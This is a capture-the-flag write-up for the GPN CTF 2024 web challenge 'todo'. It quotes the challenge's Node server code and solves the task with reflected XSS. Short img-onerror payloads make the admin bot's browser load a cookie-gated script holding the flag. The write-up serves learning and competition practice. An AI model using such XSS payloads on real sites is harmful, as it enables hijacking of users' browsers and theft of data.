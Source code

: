 ```yaml
---
ctf-event: GPN CTF 2024
date: 2024-06-01
ctf-team: luxeria
ctf-task: todo
ctf-category: web
ctf-difficulty: 
---
```

# todo

## Description

> I made a JS API! Sadly I had no time to finish it :(

## Analysis

There are two input fields:
![](_attachments/Pasted%20image%2020240601213536.png)

The first input field reflects user input:
```js
app.post('/chal', (req, res) => {
    const { html } = req.body;
    res.setHeader("Content-Security-Policy", "default-src 'none'; script-src 'self' 'unsafe-inline';");
    res.send(`
        <script src="/script.js"></script>
        ${html}
    `);
});
```

The file `script.js` contains a pseudo-flag as a comment:
```text
class FlagAPI {
    [...]
    // TODO: Make sure that this is secure before deploying
    // getFlag() {
    //     return "GPNCTF{FAKE_FLAG_ADMINBOT_WILL_REPLACE_ME}"
    // }
}
```

When cookie with a specific random value is set, the pseudo-flag is replaced with the real flag:
```js
app.get('/script.js', (req, res) => {
    res.type('.js');
    let response = script;
    if ((req.get("cookie") || "").includes(randomBytes)) response = response.replace(/GPNCTF\{.*\}/, flag)
    res.send(response);
});
```

When a payload is submitted in the second input field, a chrome browser is started with the cookie containing the correct random value. Then, the submitted payload is typed into the first input field and a screenshot of the rendered page is shown:
```js
app.post('/admin', async (req, res) => {
    try {
        const { html } = req.body;
        const browser = await puppeteer.launch({ executablePath: process.env.BROWSER, args: ['--no-sandbox'] });
        const page = await browser.newPage();
        page.setCookie({ name: 'flag', value: randomBytes, domain: 'localhost', path: '/', httpOnly: true });
        await page.goto('http://localhost:1337/');
        await page.type('input[name="html"]', html);
        await page.click('button[type="submit"]');
        await new Promise(resolve => setTimeout(resolve, 2000));
        const screenshot = await page.screenshot({ encoding: 'base64' });
        await browser.close();
        res.send(`<img src="data:image/png;base64,${screenshot}" />`);
    } catch(e) {console.error(e); res.send("internal error :( pls report to admins")}
});
```

## Solution

The first input field is vulnerable to reflected XSS:
```http
POST /chal HTTP/1.1
Host: never-forget-you--zara-larsson-3555.ctf.kitctf.de
[...]

html=%3Cimg+src%3Dx+onerror%3Dalert%28document.domain%29%3E

HTTP/1.1 200 OK
[...]

        <script src="/script.js"></script>
        <img src=x onerror=alert(document.domain)>
```

The payload is executed:
![](_attachments/Pasted%20image%2020240601214244.png)

It's now possible to perform a redirect to the file `script.js` which contains the pseudo-flag:
```html
<img src=x onerror="document.location = '/script.js'">
```

When this payload is used in the admin input field, the browser containing the correct cookie will also submit this payload and redirect to the `script.js`. Because the correct cookie is set, the flag is included in the response:
![](_attachments/Pasted%20image%2020240601214641.png)